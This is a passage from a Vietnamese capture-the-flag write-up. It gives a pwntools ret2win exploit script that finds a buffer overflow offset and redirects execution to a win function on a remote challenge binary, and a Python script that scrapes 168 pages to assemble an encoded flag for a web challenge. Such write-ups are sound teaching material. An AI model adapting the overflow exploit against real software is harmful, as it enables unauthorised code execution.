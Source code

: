 => Bài này là **ret2win**

Mình viết payload để khai thác bài này như bên dưới

```python
from pwn import *

exe = "./overflowed"
elf = context.binary = ELF(exe, checksec=False)

def find_eip_offset(payload):
   p = process(exe)
   p.sendlineafter(b"name:\n",payload)
   p.wait()
   ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))
   info('located EIP/RIP offset at {a}'.format(a=ip_offset)),
   return ip_offset

r = remote("0.cloud.chals.io", 33664)

# r = process(exe)

offset = find_eip_offset(cyclic(500))

payload = flat({
   offset: [
      elf.symbols.win
   ]
})

r.sendlineafter(b"name:\n", payload)
r.interactive()
```

## Web

Với web thì mình chỉ còn giữ solution của mỗi bài **Everything At One**

### Everything At One

Bài này khi dir search thì phát hiện nó có các file html có tên tăng lần lượt 1.html, 2.html, 3.html, ... cho tới 168.

Mình nhận thấy mỗi trang sẽ cho mình một ký tự (Mình đã nghi nó là Base64 của flag)

Mình quyết định gom lại tất cả thành một chuỗi duy nhất bằng code python

```python
import requests
import base64

# Fuzz thì thấy có 169 trang từ 1 đến 168 với format là https://digitaldragonsctf-everything-at-once.chals.io/{i}.html
# Mỗi trang sẽ có title chứa một ký tự trong flag được encode bằng base32 -> base64 -> hex
# Để lấy flag thì ta cần lấy hết các ký tự trong title của các trang từ 1 đến 168

enc_flag = ""

for i in range(1, 169):
    response = requests.get(f"https://digitaldragonsctf-everything-at-once.chals.io/{i}.html")
    title = response.text.split("<title>")[1].split("</title>")[0]
    enc_flag += title
    print(f"Page {i}: {title}, Encoded flag: {enc_flag}")
    
print("Encrypted flag:", enc_flag)

```